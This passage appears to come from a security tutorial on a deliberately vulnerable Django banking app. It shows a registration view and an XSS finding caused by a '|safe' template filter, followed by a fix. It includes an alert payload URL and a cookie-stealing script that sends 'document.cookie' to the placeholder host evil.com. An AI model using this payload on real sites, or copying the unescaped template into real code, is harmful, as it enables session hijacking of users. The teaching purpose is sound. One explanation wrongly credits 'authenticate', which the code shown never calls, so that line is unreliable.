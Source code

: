 For registration:
```python
from django.contrib.auth.models import User

@csrf_protect
def register(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        email = request.POST.get('email')
        if User.objects.filter(username=username).exists():
            return render(request, 'register.html', {'error': 'Username taken'})
        user = User.objects.create_user(username=username, password=password, email=email)
        Account.objects.create(user=user, account_number=str(random.randint(100000, 999999)), balance=100000.00)
        return redirect('login')
    return render(request, 'register.html')
```

**Explanation**: Uses Django's ORM and `authenticate` to prevent SQL injection by sanitizing inputs.

### A02:2021 - Cross-Site Scripting (XSS)

**Location**: `dashboard.html`, `views.py` (dashboard)

**Issue**: The `message` parameter is rendered without escaping, allowing stored XSS.

**Code**:
```html
{% if message %}
    <div class="bg-yellow-100 p-4 rounded">{{ message|safe }}</div>
{% endif %}
```

```python
message = request.GET.get('message', '')
```

#### Demonstration
1. Log in as `alice`.
2. Visit `http://localhost:8000/dashboard/?message=<script>alert('XSS Attack!');</script>`.
3. Observe a JavaScript alert box, indicating script execution.
4. Advanced: Use Burp Suite to inject `<script>document.location='http://evil.com/steal?cookie='+document.cookie;</script>` to steal cookies.

**Impact**: Session hijacking, data theft, or malicious redirects.

#### Fix
Remove `|safe` filter and escape output:
```html
{% if message %}
    <div class="bg-yellow-100 p-4 rounded">{{ message }}</div>
{% endif %}
```
